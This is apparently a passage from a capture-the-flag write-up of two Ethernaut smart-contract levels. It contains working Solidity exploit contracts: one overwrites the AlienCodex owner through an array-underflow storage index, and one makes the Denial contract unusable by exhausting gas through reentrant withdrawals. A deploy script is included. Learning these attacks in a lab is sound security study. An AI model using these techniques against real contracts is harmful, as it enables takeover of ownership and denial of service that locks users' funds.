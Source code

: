 To get the location we'll substract `0x11111..1111 - keccack(1)` location of first element and add `1`. Then simply trigger `revise`.

```solidity
contract AlienCodexHack {
  AlienCodex  alienCodex;

  constructor (address instance) public {
    alienCodex = AlienCodex(instance);
    alienCodex.make_contact();
    alienCodex.retract();
    uint256 MIN;
    uint256 MAX = ~MIN;
    uint256 loc = MAX - uint256(keccak256(abi.encode(1))) + 1;
    alienCodex.revise(loc, bytes32(bytes20(address(msg.sender))) >> 96);
  }
}
```
```javascript
const AlienCodexHack = await hre.ethers.getContractFactory("AlienCodexHack");
const alienCodexHack = await AlienCodexHack.deploy(alienCodex.address)
await alienCodexHack.deployed()
console.log(await alienCodex.owner())
```

--- 

## denial

The goal is to render this contract unusable. 

First thing to notice here is that we can set `partner` and there is not check that if `partner` is not a smart contract. This is can used later on. Moving on, there is no return value check after call `partner.call{value:amountToSend}("");` and it is a low level `call` which continues even after revert. So we can not simply revert the transaction.

Only way is to run the tranasction out of gas everytime. There are multiple ways to do that

```solidity
contract DenialHack {

    Denial denial;
    constructor (address instance) {
        denial = Denial(payable(instance));
        denial.setWithdrawPartner(address(this));
       
    }
    // allow deposit of funds
    receive() external payable {
        payable(address(denial)).call{value:msg.value}("");
        denial.withdraw();
    }
}
```
